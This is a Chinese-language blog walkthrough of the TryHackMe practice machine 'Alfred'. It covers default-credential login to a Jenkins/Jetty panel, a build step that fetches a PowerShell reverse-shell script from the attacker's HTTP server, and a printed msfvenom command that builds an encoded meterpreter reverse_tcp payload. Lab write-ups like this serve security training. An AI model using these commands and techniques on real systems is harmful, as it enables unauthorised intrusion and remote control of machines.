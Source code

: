 ```yaml
---
title: Alfred
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_2.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# Alfred

**Alfred 是tryhackme的一台实验机器，虽然是容易级别的，但对于新手具有很大的参考价值**

- 查看靶机的开放的端口

![image-20210917214613285](http://cdn.mxrblog.cn/image-20210917214613285.png)



- 发现靶机开放了80和8080端口，网络服务器是Jetty，登录其web界面，根据google的结果，可以得知其网络服务器的默认用户名和密码都是admin，登录后进入project的配置文件界面

![image-20210917215035347](http://cdn.mxrblog.cn/image-20210917215035347.png)



- 在配置界面我们可以获取攻击机器发送的文件，并且将靶机本身的shell反弹给攻击机器

![image-20210917215221749](http://cdn.mxrblog.cn/image-20210917215221749.png)



- 在攻击机器上开启web服务，方便靶机获取攻击机器发送的文件，这里使用python3建立http服务

![image-20210917215449090](http://cdn.mxrblog.cn/image-20210917215449090.png)



- 通过tryhackme上面的教程我们可以复制粘贴上面的代码，然后接收到攻击机器发送的powershell类型的文件（如果攻击机器没有tryhackme上面说的powershell文件则自己需要通过google自己下载）

![image-20210917224002791](http://cdn.mxrblog.cn/image-20210917224002791.png)

- tryhackme上面提到的代码的作用是获取Invoke-PowerShellTcp.ps1文件以及在靶机上运行它，这个文件的作用是将靶机上的shell传给攻击机器，所以我们可以在攻击机器上使用necat建立一个监听端口，接收shell

![image-20210917221613248](http://cdn.mxrblog.cn/image-20210917221613248.png)



- 点击save后再点击Build Now，然后观察攻击机器上的http和nc服务，在这里可能无法将靶机的shell反弹给攻击机器，原因可能是在tryhackme网页上使用了中文翻译，粘贴代码后出现了问题，所以不翻译英文界面就行了，还有一种情况是Invoke-PowerShellTcp.ps1文件下载出现了问题，	起初我是用别人报告中的链接下载的，导致Build Now一直出现问题，当使用tryhackme给的链接，进入链接克隆下载整个github仓库后，使用里面的文件才不会出现问题

![image-20210918000158672](http://cdn.mxrblog.cn/image-20210918000158672.png)

![image-20210918000237473](http://cdn.mxrblog.cn/image-20210918000237473.png)

![image-20210918000933834](http://cdn.mxrblog.cn/image-20210918000933834.png)

- 找到user.txt

![image-20210918001309363](http://cdn.mxrblog.cn/image-20210918001309363.png)



### 使用msf

- 创建载荷

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.102.23 LPORT=4445 -f exe -o get8888.exe`

![image-20210918002809629](http://cdn.mxrblog.cn/image-20210918002809629.png)

- 在靶机上下载已经创建好的载荷，因为原来web服务器上已经存在了一个任务，不能通过修改config文件进行命令的实现，所以我们在被反弹的shell上实现命令（tryhackme已经给出命令）

![image-20210918003710136](http://cdn.mxrblog.cn/image-20210918003710136.png)

- 使用msf建立监听模块

![image-20210918005246878](http://cdn.mxrblog.cn/image-20210918005246878.png)

- 结果

![image-20210918005315197](http://cdn.mxrblog.cn/image-20210918005315197.png)

- 接下来没什么好说的了，按照提示一步一步来就行了

![image-20210918010948130](http://cdn.mxrblog.cn/image-20210918010948130.png)



